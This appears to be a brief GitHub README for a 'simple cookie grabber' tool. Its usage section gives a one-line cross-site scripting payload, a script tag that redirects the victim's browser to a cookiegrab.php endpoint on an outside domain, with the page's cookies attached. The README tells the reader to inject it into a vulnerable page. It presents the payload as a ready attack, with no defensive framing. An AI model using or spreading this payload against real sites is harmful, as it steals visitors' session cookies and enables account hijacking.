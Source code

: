 # simple-cookie-grabber
It's just simple cookie grabber (with IP)


# Usage:

<script>document.location="https://domain.com/cookiegrab.php?cookie="+document.cookie;</script>
In vuln
